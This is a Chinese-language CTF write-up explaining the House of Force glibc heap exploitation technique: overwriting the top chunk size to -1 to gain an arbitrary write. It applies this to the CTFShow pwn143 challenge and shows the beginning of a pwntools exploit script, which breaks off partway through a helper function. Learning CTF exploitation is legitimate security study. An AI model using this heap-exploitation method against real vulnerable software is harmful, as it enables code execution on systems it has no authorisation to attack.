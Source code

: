 
## House of XXX
### House of Force
**在开始之前，首先要强调，该漏洞的使用对libc版本有要求，即仅能在libc2.23-2.29的版本使用该漏洞**
~~看的几篇文章都没有说过这一点导致调试了半天，都怀疑是surfacepro可怜的4G的内存不够用导致的malloc失败~~
`House of Force(HOF)`,是一种堆利用方法，利用该漏洞需要满足下面条件:
-  能够以溢出等方式控制到`top chunk`的`size`域
-  能够自由控制堆分配尺寸的大小
HOF产生的条件是由于`glibc`对`top chunk`的处理，进行堆分配时，如果所有空闲的块都无法满足需求，那么就会从`top chunk`中分割出对应的大小作为堆块的空间，那么当`top chunk`的`size`值是由用户控制的任意值时就可以使`top chunk`指向我们期望的任何位置，这就相当于一次任意地址写。
一般而言将`size`值修改为-1(因为在比较时会把size值转化为无符号数，此时-1就是最大值)。
这里用例题[CTFShow-pwn143](https://ctf.show/challenges#pwn143-4162)来练习：
首先可以看到有增删查改四个函数，修改部分可以自定义输入的长度，导致可以堆溢出修改`top chunk`的`size`。
这里我们用堆溢出修改size为`-1(0xffffffffffffffff)`，然后再`malloc(-0x60)`，这样就可以让`top chunk`的指针往回指，而本题开辟的第一个`chunk`里存放的就是`hello_message`和`goodbye_message`的地址，后续调用时也是调用这个`chunk`里存的函数，那么我们只需要将这个`chunk`里的函数地址修改为`backdoors`的地址，再调用`exit`，就可以执行`backdoors`。
![[Pasted image 20250323155525.png]]
可以看到现在的top chunk指的是0x16fc1050，也就是正常位置
![[Pasted image 20250323155622.png]]
![[Pasted image 20250323155703.png]]
执行后可以看到top chunk修改到了heap段的头部，此时我们申请一个新的chunk就能覆盖hello_message和goodbye_message。
```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
ip, port = 'pwn.challenge.ctf.show:28149'.split(':')
elf_path = './pwn143'
libc_path = './libc-2.23.so'
local = True
debug = True
debug_word = '''
	b add
	b edit
	b show
	b delete
'''
if local:
	p = process(elf_path)
	if debug:
		gdb.attach(p, debug_word)
else:
	p = remote(ip, int(port))

def choose(choice):
	p.recvuntil(b'choice:')
	p.sendline(str(choice))

def create_heap(size, content):
	choose(2)
	p.recvuntil(b'length:')
	p.sendline(str(size))
	p.recvuntil(b'name:')
	p.send(content)

def edit_heap(idx, size, content):
	choose(3)
	p.recvuntil(b'index:')
	p.sendline((str(idx)))
	p.recvuntil(b'name:')
	p.sendline(str(size))
	p.recvuntil(b'name:')
```
